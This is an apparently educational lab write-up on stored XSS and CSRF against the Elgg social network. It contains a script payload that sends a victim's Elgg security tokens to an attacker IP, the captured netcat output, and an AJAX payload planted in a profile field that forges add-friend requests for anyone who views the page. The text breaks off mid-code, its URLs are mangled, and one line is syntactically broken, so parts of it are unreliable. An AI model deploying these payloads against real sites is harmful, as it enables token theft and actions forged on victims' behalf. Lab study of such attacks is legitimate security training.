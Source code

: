 > Using the `"HTTP Header Live"` add-on to Inspect HTTP Headers

![Screen Shot 2020-09-20 at 00.18.19](https://i.imgur.com/rRo8aig.png)

![Screen Shot 2020-09-20 at 00.16.52](https://i.imgur.com/lzjweg9.png)


### construct the URL for send add friend Request
- retrieve the two tokens

```js
<script>
    document.write('<img src=http网址attackerIP:5555?c= ' + elgg.security.token.__elgg_ts + '& ' + elgg.security.token.__elgg_token + '>');
</script>
```

The nc output seems like this, & seperate the token.

```
GET /?c=1520227817&0fab54e97b2fa75c39d298de602a5939 HTTP/1.1
Host: 192.168.56.4:1234
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

- If the web app does not match passwords (or the case when we have the password of the intended victim)
- can simply use a python script to use the authentication and use requests module to send a `GET request` and the attack will have been executed. 
- The code 
  - take the input from the nc command, split into sections to get the required cookies and the tokens. 
  - send a request to the desired link using the `HTTPBasicAuth` module and the cookies and parameters set along with the `GET request`. 
  - This can be used in cases when the script file we make is bigger than the allowed number of characters inside the text box that has the vulnerability.

To actually make other accounts execute the malicious code, the code needs to be in the same place where the previous codes to obtain cookie and the tokens were placed. This is the case when the password of the victim is not held with the attacker.
- use the following code in javascript using AJAX
- store it into the 'about me' section of user11. 

This code forms the `GET request` to duplicate the add friend action of the web app. 
- When the victim say alice views the homepage of the attacker user11, 
- her browser will read this code 
- execute the javascript inside the tags. 
- Since the user is logged in while the code is executed, the attack will run smoothly and user11 will be added to the friend list of alice.


```js
<script type="text/javascript">

window.onload = function () {
    // access Security Token __elgg_token
    var token = "&__elgg_token" + elgg.security.token.__elgg_token;

    // access Time Stamp __elgg_ts
    var ts = "&__elgg_ts" + elgg.security.token.__elgg_ts;

    // user ID from LiveHTTPHeader
    var sendurl = "http网址www.web.com/action/add?friend=42"+ts=token;

    // write the Ajax cod
```